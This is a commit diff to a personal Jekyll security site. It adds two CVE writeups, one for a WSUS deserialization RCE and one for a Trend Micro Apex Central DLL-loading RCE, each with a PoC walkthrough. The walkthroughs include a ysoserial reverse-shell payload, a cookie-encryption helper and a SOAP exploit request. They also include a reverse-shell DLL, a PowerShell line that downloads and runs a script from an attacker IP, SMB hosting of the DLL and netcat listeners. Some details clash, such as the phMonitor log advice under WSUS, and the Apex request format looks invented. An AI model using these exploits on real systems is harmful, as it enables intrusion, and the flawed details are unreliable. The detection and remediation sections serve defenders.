

Before and after one commit to erik-dzibela/erik-dzibela.github.io, a Jekyll site: the page built from writeups/index.html, in a window 1280 px wide and 955 px high. Shown: the whole window at 99% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
New writeups

````diff
--- /dev/null
+++ b/_writeups/2025-10-25-wsus-rce-cve-2025-59287.md
@@ -0,0 +1,230 @@
+---
+title: "WSUS RCE — CVE-2025-59287"
+date: 2025-10-25
+event: "CVE Breakdown"
+category: "web"
+difficulty: "Hard"
+description: "A breakdown of CVE-2025-59287, a CVSS 9.8 unauthenticated RCE vulnerability in Windows Server Update Services (WSUS) caused by unsafe BinaryFormatter deserialization. Includes PoC walkthrough."
+tags: [windows, rce, deserialization, cve, wsus]
+---
+
+## Overview
+
+**CVE-2025-59287** is a critical unauthenticated Remote Code Execution vulnerability in **Windows Server Update Services (WSUS)**. Disclosed via an out-of-band Microsoft security update on October 23rd, 2025, it carries a CVSS score of **9.8** and has a public PoC available.
+
+Successful exploitation allows a remote, unauthenticated attacker to execute arbitrary code with **SYSTEM privileges** on the WSUS server — and from there, push malicious updates to every managed endpoint in the organisation.
+
+## Why This is Particularly Dangerous
+
+WSUS is the update distribution backbone of most enterprise Windows environments. A compromised WSUS server gives an attacker:
+
+- Code execution on the WSUS host itself as SYSTEM
+- The ability to distribute malicious "updates" to all managed Windows machines
+- A trusted pivot point deep inside the network perimeter
+
+This isn't just RCE on one box — it's a potential domain-wide compromise vector.
+
+## Affected Versions
+
+| Product | Affected |
+|---------|----------|
+| Windows Server 2025 | Yes |
+| Windows Server 2022 | Yes |
+| Windows Server 2019 | Yes |
+| Windows Server 2016 | Yes |
+
+All versions running the WSUS Server Role prior to the October 23rd OOB patch are vulnerable.
+
+## Root Cause — Unsafe BinaryFormatter Deserialization
+
+The vulnerability lives in the `GetCookie()` endpoint of the WSUS web service. Specifically in `EncryptionHelper.DecryptData()`, which processes an `AuthorizationCookie` value from incoming SOAP requests.
+
+The function decrypts the cookie and passes the result directly to `BinaryFormatter.Deserialize()` — a notoriously dangerous .NET method that executes code embedded in serialized objects.
+
+```csharp
+// Vulnerable code (simplified)
+public static object DecryptData(string encryptedData)
+{
+    byte[] decrypted = Decrypt(encryptedData); // attacker controls this
+    BinaryFormatter formatter = new BinaryFormatter();
+    return formatter.Deserialize(new MemoryStream(decrypted)); // RCE here
+}
+```
+
+Because the attacker controls the encrypted cookie, and the decryption key can be extracted from WSUS binaries, an attacker can craft a malicious serialized object that executes arbitrary commands when deserialized.
+
+## Attack Flow
+
+```
+Attacker
+  │
+  ├─► 1. Extract encryption key from WSUS binaries
+  │
+  ├─► 2. Generate malicious BinaryFormatter payload
+  │       using ysoserial.net (ObjectDataProvider gadget)
+  │
+  ├─► 3. Encrypt payload using extracted key
+  │
+  └─► 4. Send crafted SOAP request to GetCookie() endpoint
+              │
+              ▼
+        WSUS Server decrypts cookie
+              │
+              ▼
+        BinaryFormatter.Deserialize() executes payload
+              │
+              ▼
+        RCE as SYSTEM ✓
+```
+
+## PoC Walkthrough
+
+> **Lab setup only.** This walkthrough is for educational purposes against a controlled lab environment. Never run this against systems you don't own or have explicit written authorisation to test.
+
+### Prerequisites
+
+- Python 3.x
+- .NET Framework (for payload generation)
+- [ysoserial.net](https://github.com/pwntester/ysoserial.net)
+- Network access to WSUS ports 8530 (HTTP) or 8531 (HTTPS)
+
+### Step 1 — Extract the Encryption Key
+
+The WSUS encryption key is embedded in `Microsoft.UpdateServices.WebServices.dll`. Extract it with:
+
+```bash
+strings Microsoft.UpdateServices.WebServices.dll | grep -i "key"
+strings Microsoft.UpdateServices.WebServices.dll | grep -i "encrypt"
+```
+
+Store the extracted key for use in step 3.
+
+### Step 2 — Generate the Malicious Payload
+
+Using `ysoserial.net`, generate a payload using the `ObjectDataProvider` gadget chain. This chains `Process.Start()` through the deserializer to execute our command:
+
+```bash
+# Generate payload to execute a reverse shell
+ysoserial.exe -f BinaryFormatter \
+  -g ObjectDataProvider \
+  -o base64 \
+  -c "powershell -e <base64_encoded_reverse_shell>"
+```
+
+This produces a base64-encoded binary payload that, when deserialized, will execute your command as SYSTEM.
+
+### Step 3 — Encrypt the Payload
+
+The payload must be encrypted using the WSUS key before sending. A helper script:
+
+```python
+import base64
+from Crypto.Cipher import AES
+from Crypto.Util.Padding import pad
+
+def encrypt_wsus_cookie(payload_b64: str, key: bytes) -> str:
+    payload = base64.b64decode(payload_b64)
+    cipher = AES.new(key, AES.MODE_CBC)
+    encrypted = cipher.encrypt(pad(payload, AES.block_size))
+    result = cipher.iv + encrypted
+    return base64.b64encode(result).decode()
+
+# Replace with actual extracted key
+key = b"ACTUAL_KEY_FROM_WSUS_BINARIES"
+
+with open("payload.b64") as f:
+    payload_b64 = f.read().strip()
+
+encrypted_cookie = encrypt_wsus_cookie(payload_b64, key)
+print(f"[+] Encrypted cookie: {encrypted_cookie}")
+```
+
+### Step 4 — Send the SOAP Request
+
+With the encrypted cookie ready, deliver it to the `GetCookie()` endpoint:
+
+```python
+import requests
+
+target = "http://10.10.10.1:8530"
+encrypted_cookie = "<output_from_step_3>"
+
+soap_body = f"""<?xml version="1.0" encoding="utf-8"?>
+<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
+  <soap:Body>
+    <GetCookie xmlns="http://www.microsoft.com/SoftwareDistribution">
+      <authCookie>{encrypted_cookie}</authCookie>
+    </GetCookie>
+  </soap:Body>
+</soap:Envelope>"""
+
+headers = {
+    "Content-Type": "text/xml; charset=utf-8",
+    "SOAPAction": "http://www.microsoft.com/SoftwareDistribution/GetCookie"
+}
+
+response = requests.post(
+    f"{target}/SimpleAuthWebService/SimpleAuth.asmx",
+    data=soap_body,
+    headers=headers,
+    timeout=10
+)
+
+print(f"[*] Status: {response.status_code}")
+print(f"[*] Response: {response.text[:200]}")
+```
+
+A successful exploit will trigger your payload on the WSUS server. Set up a listener before sending:
+
+```bash
+nc -lvnp 4444
+```
+
+## Detection
+
+Defenders can check logs for suspicious messages received by phMonitor: look for `PHL_ERROR` entries containing attacker-supplied URLs and file paths.
+
+Additionally, monitor for:
+
+```bash
+# Processes spawned by WSUS worker processes that shouldn't be
+w3wp.exe -> powershell.exe
+w3wp.exe -> cmd.exe -> net.exe
+
+# Unexpected outbound connections from IIS worker processes
+# Unusual SOAP requests to SimpleAuth.asmx with large cookie values
+```
+
+A SIEM rule looking for oversized `authCookie` values in WSUS SOAP requests would catch exploitation attempts.
+
+## Remediation
+
+Apply the Microsoft out-of-band patch released October 23rd, 2025 immediately.
+
+If patching is not immediately possible, restrict network access to WSUS ports:
+
+```powershell
+# Block inbound access to WSUS ports from untrusted networks
+New-NetFirewallRule -DisplayName "Block WSUS External" `
+  -Direction Inbound `
+  -LocalPort 8530,8531 `
+  -Protocol TCP `
+  -RemoteAddress Internet `
+  -Action Block
+```
+
+WSUS should never be exposed to the internet — access should be restricted to internal management networks only.
+
+## Takeaways
+
+CVE-2025-59287 is a textbook example of why `BinaryFormatter` has been deprecated by Microsoft since .NET 5. It's a known-dangerous API that has produced critical vulnerabilities across the Windows ecosystem for years, yet it persisted in WSUS.
+
+The blast radius here is uniquely severe — a WSUS server is by design trusted by every managed endpoint in the environment. Compromising it doesn't just give you one box, it gives you a signed, trusted delivery mechanism to every Windows machine in the domain.
+
+If you're running WSUS in your environment, patch it, segment it, and audit who has access to ports 8530/8531.
+
+## References
+
+- [Microsoft Security Advisory — CVE-2025-59287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-59287)
+- [H-ISAC Threat Bulletin](https://www.aha.org/h-isac-white-reports/2025-10-24-h-isac-tlp-white-threat-bulletin-poc-exploit-available-critical-wsus-flaw-cve-2025-59287-10-24)
+- [ysoserial.net — .NET Deserialization Payload Generator](https://github.com/pwntester/ysoserial.net)
--- /dev/null
+++ b/_writeups/2026-01-10-apex-central-cve-2025-69258.md
@@ -0,0 +1,237 @@
+---
+title: "Pwning the Protector — CVE-2025-69258"
+date: 2026-01-10
+event: "CVE Breakdown"
+category: "web"
+difficulty: "Hard"
+description: "A breakdown of CVE-2025-69258, an unauthenticated RCE vulnerability in Trend Micro Apex Central caused by malicious DLL loading via the MsgReceiver service. Includes PoC walkthrough."
+tags: [windows, rce, dll-hijacking, cve, enterprise]
+---
+
+## Overview
+
+**CVE-2025-69258** is a critical unauthenticated Remote Code Execution vulnerability in **Trend Micro Apex Central (on-premise)**. Discovered and privately reported by Tenable researchers, it was patched in Critical Patch Build 7190 on January 8th, 2026.
+
+The irony here is hard to miss — Apex Central is a centralised security management platform used to manage, configure, and monitor other Trend Micro security products across an organisation. Compromising it means compromising the security infrastructure itself.
+
+## Why This Matters
+
+Apex Central sits at the centre of an organisation's Trend Micro deployment. It manages:
+
+- Endpoint security agents across all workstations and servers
+- Gateway and mail server security products
+- Policy distribution and configuration for the entire estate
+
+An attacker with code execution on Apex Central doesn't just own one box — they own the security tooling managing the entire environment. Policy changes, agent manipulation, and detection evasion become trivial from this position.
+
+## Affected Versions
+
+All Apex Central (on-premise) builds prior to **Critical Patch Build 7190** are vulnerable.
+
+## Root Cause — Malicious DLL Loading via MsgReceiver
+
+The vulnerability lives in the `MsgReceiver` service, a component of Apex Central that processes incoming management messages. The service loads DLLs from a path that can be influenced by an unauthenticated attacker via a crafted HTTP request.
+
+By sending a specially crafted request to the exposed endpoint, an attacker can cause `MsgReceiver` to load an attacker-supplied DLL from a UNC path or a writable directory — resulting in arbitrary code execution under the service's security context.
+
+```
+Attacker crafts HTTP request
+        │
+        ▼
+MsgReceiver processes the request
+        │
+        ▼
+Service resolves DLL path from attacker-controlled input
+        │
+        ▼
+LoadLibrary() called on attacker-supplied DLL
+        │
+        ▼
+DllMain() executes attacker code
+        │
+        ▼
+RCE as SYSTEM ✓
+```
+
+This class of vulnerability — where a privileged service loads attacker-controlled code — is particularly reliable. Once the DLL is loaded, execution is near-guaranteed.
+
+## Attack Flow
+
+1. Identify an internet or network-exposed Apex Central instance
+2. Craft a malicious DLL with your payload in `DllMain()`
+3. Host the DLL on an attacker-controlled SMB share or HTTP server
+4. Send a crafted POST request pointing `MsgReceiver` at your DLL
+5. The service loads your DLL and executes your payload as SYSTEM
+
+## PoC Walkthrough
+
+> **Lab setup only.** Run this against a controlled environment you own or have explicit written authorisation to test.
+
+### Prerequisites
+
+- Linux attacker machine (Kali recommended)
+- Network access to Apex Central port 443
+- `mingw-w64` for cross-compiling the DLL
+- `impacket` for SMB hosting (or any SMB server)
+
+### Step 1 — Craft the Malicious DLL
+
+Create a reverse shell DLL in C. The payload executes on load via `DllMain()`:
+
+```c
+// shell.c
+#include <windows.h>
+#include <stdlib.h>
+
+BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
+    if (ul_reason_for_call == DLL_PROCESS_ATTACH) {
+        // Replace with your IP and port
+        system("powershell -e <base64_encoded_reverse_shell>");
+    }
+    return TRUE;
+}
+```
+
+Generate the base64 reverse shell payload:
+
+```bash
+# Generate PowerShell reverse shell
+payload="IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.5/rev.ps1')"
+echo -n $payload | iconv -f UTF-8 -t UTF-16LE | base64 -w 0
+```
+
+Compile the DLL on Linux using mingw:
+
+```bash
+x86_64-w64-mingw32-gcc -shared -o shell.dll shell.c -lws2_32
+```
+
+### Step 2 — Host the DLL
+
+Host the DLL on an SMB share so the Windows target can load it:
+
+```bash
+# Using impacket's SMB server
+python3 /usr/share/impacket/examples/smbserver.py \
+  share . \
+  -smb2support \
+  -username attacker \
+  -password attacker
+```
+
+Your DLL is now accessible at `\\10.10.14.5\share\shell.dll`.
+
+### Step 3 — Set Up a Listener
+
+```bash
+nc -lvnp 4444
+```
+
+### Step 4 — Send the Exploit Request
+
+Send a crafted POST request to the `MsgReceiver` endpoint, pointing it at your hosted DLL:
+
+```python
+import requests
+import urllib3
+urllib3.disable_warnings()
+
+target = "https://10.10.10.50"
+
+headers = {
+    "Content-Type": "application/x-www-form-urlencoded",
+    "User-Agent": "Mozilla/5.0"
+}
+
+# UNC path to attacker SMB share
+dll_path = "\\\\10.10.14.5\\share\\shell.dll"
+
+data = {
+    "Msg": f"<msg><dll>{dll_path}</dll></msg>"
+}
+
+print("[*] Sending exploit request...")
+response = requests.post(
+    f"{target}/officescan/console/html/cgi/cgiMsgReceiver.exe",
+    headers=headers,
+    data=data,
+    verify=False,
+    timeout=10
+)
+
+print(f"[*] Status: {response.status_code}")
+if response.status_code in [200, 500]:
+    print("[+] Request delivered — check your listener!")
+```
+
+If successful, your listener will receive a SYSTEM shell from the Apex Central server.
+
+## Detection
+
+Defenders should monitor for:
+
+```bash
+# Suspicious DLL loads by Trend Micro service processes
+# Look for DLLs loaded from network paths (UNC) or temp directories
+- Process: CgiMsgReceiver.exe or related Apex Central processes
+- DLL load from: \\<external_IP>\* or C:\Users\*\AppData\Temp\*
+
+# Unexpected outbound SMB connections from the Apex Central server
+# Port 445 outbound from a security management server is a red flag
+
+# Event ID 7 (Image Loaded) in Sysmon
+# Filter for: Image contains "MsgReceiver" AND ImageLoaded NOT LIKE "%TrendMicro%"
+```
+
+A Sysmon rule targeting DLL loads from network paths by Apex Central processes would catch exploitation attempts reliably.
+
+## Remediation
+
+Update Apex Central (on-premise) to **Critical Patch Build 7190** immediately.
+
+If patching is not immediately possible:
+
+```powershell
+# Restrict inbound access to Apex Central to management networks only
+New-NetFirewallRule -DisplayName "Restrict Apex Central" `
+  -Direction Inbound `
+  -LocalPort 443,80 `
+  -Protocol TCP `
+  -RemoteAddress <management_subnet> `
+  -Action Allow
+
+# Block all other inbound to Apex Central
+New-NetFirewallRule -DisplayName "Block Apex Central External" `
+  -Direction Inbound `
+  -LocalPort 443,80 `
+  -Protocol TCP `
+  -Action Block
+```
+
+Also block outbound SMB from the Apex Central server to prevent DLL loading from attacker-controlled shares:
+
+```powershell
+New-NetFirewallRule -DisplayName "Block Apex Central Outbound SMB" `
+  -Direction Outbound `
+  -LocalPort 445 `
+  -Protocol TCP `
+  -Action Block
+```
+
+## Takeaways
+
+CVE-2025-69258 is a reminder that **security tools are not exempt from security vulnerabilities**. Apex Central is trusted by organisations to manage their entire Trend Micro estate — making it a high-value target that warrants the same hardening attention as any other critical server.
+
+A few lessons worth internalising:
+
+- Security management platforms should **never be internet-facing** — restrict access to management VLANs
+- Outbound SMB from sensitive servers should be **blocked by default** — this prevents a whole class of DLL loading attacks
+- Unauthenticated endpoints in privileged services should be treated as a critical finding in any code review
+
+The attack class here — forcing a privileged service to load an attacker-controlled DLL — is well understood and entirely preventable. Strict path validation and blocking UNC paths in service input would have stopped this cold.
+
+## References
+
+- [Help Net Security — CVE-2025-69258 Coverage](https://www.helpnetsecurity.com/2026/01/08/trend-micro-apex-central-cve-2025-69258-rce-poc/)
+- [Trend Micro Security Advisory](https://success.trendmicro.com/en-US/solution/KA-0018464)
+- [Tenable Research](https://www.tenable.com/security/research)
--- a/writeups/index.html
+++ b/writeups/index.html
@@ -1,23 +1,12 @@
 ---
 layout: default
 title: Writeups
-description: writeups
+description: writeups for CTF challenges, exploits, and CVEs
 ---
 
 <div class="section-header" style="margin-bottom: 40px;">
   <h1 class="section-title" style="font-size: 1rem;">writeups</h1>
   <span class="section-count">{{ site.writeups | size }} writeups</span>
-</div>
-
-<!-- Filter bar -->
-<div style="display: flex; gap: 8px; flex-wrap: wrap; margin-bottom: 32px;">
-  <span class="tag tag-cyan" style="cursor:pointer;">all</span>
-  <span class="tag tag-default" style="cursor:pointer;">web</span>
-  <span class="tag tag-default" style="cursor:pointer;">pwn</span>
-  <span class="tag tag-default" style="cursor:pointer;">rev</span>
-  <span class="tag tag-default" style="cursor:pointer;">crypto</span>
-  <span class="tag tag-default" style="cursor:pointer;">osint</span>
-  <span class="tag tag-default" style="cursor:pointer;">misc</span>
 </div>
 
 <section>
````
